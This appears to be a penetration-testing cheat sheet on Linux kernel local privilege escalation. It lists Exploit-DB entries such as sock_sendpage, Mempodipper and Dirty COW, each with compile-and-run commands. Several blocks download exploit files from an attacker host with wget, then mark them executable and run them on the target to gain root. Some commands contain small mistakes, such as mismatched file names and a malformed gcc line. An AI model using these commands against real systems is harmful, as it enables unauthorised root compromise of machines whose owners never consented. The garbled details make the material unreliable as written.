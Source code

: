 ```yaml
---
description: Common kernel exploits usage.
---
```


# Kernel Exploits

### \*\*Linux Kernel 2.6 < 2.6.19 (White Box 4 / CentOS 4.4/4.5 / Fedora Core 4/5/6 x86) - 'ip\_append\_data()' Ring0 Privilege Escalation (1) - \*\*

[https://www.exploit-db.com/exploits/9542](https://www.exploit-db.com/exploits/9542)

If target machine has 32-bit architecture, we compile it with cross compiling at our machine.

```
$ gcc -m32 -Wl,--hash-style=both -o 9542 9542.c

$ wget http://192.168.1.1/9545 && chmod +x 9542 && ./9542
```

### Linux Kernel 2.4.x/2.6.x (CentOS 4.8/5.3 / RHEL 4.8/5.3 / SuSE 10 SP2/11 / Ubuntu 8.10) (PPC) - 'sock\_sendpage()' Local Privilege Escalation

[https://www.exploit-db.com/exploits/9545](https://www.exploit-db.com/exploits/9545)

If this doesn't work, we should change the module. - https://bugzilla.redhat.com/show\_bug.cgi?id=516949#c24- List of Modules - 24

Line 349 - if ((out\_fd = socket(**{MODULENAME}**, SOCK\_DGRAM, 0)) == -1)

```
gcc -m32 -Wl,--hash-style=both 9545.c -o 9545

wget http://192.168.1.1/9545 && chmod +x 9545 && ./9545
```

```
linux-sendpage.c (same 9545)
 * Linux kernel versions from 2.4.4 to 2.4.37.4, and from 2.6.0 to 2.6.30.4
 * are vulnerable.
 * For i386 and ppc, compile with the following command:
 * gcc -Wall -o linux-sendpage linux-sendpage.c
 *
 * And for x86_64 and ppc64:
 * gcc -Wall -m64 -o linux-sendpage linux-sendpage.c
```

### Linux Kernel 2.6.39 < 3.2.2 (x86/x64) - 'Mempodipper' Local Privilege Escalation (2)

exploits/linux/local/35161.c

[https://www.exploit-db.com/raw/35161](https://www.exploit-db.com/raw/35161)

```
mkdir /tmp/poc
cd /tmp/poc
wget http://192.168.1.1/35161.c
gcc 35161.c -o poc
./poc
```

### Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation

[https://www.exploit-db.com/exploits/44298](https://www.exploit-db.com/exploits/44298)

```
cp /usr/share/exploitdb/exploits/linux/local/44298.c .
gcc 44298.c -o exploit.php

wget http://192.168.1.1:8080/exploit.php
mv exploit.php exploit
chmod +x exploit
./exploit
```

### Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation

[https://www.exploit-db.com/exploits/45010](https://www.exploit-db.com/exploits/45010)

```
gcc cve-2017-16995.c -o cve-2017-16995
$ ./cve-2017-16995
```

### Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE\_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)

[https://www.exploit-db.com/exploits/40839](https://www.exploit-db.com/exploits/40839)

[https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c](https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c)

```
test$ gcc -pthread dirty.c -o dirty -lcrypt dirty
./dirty
```
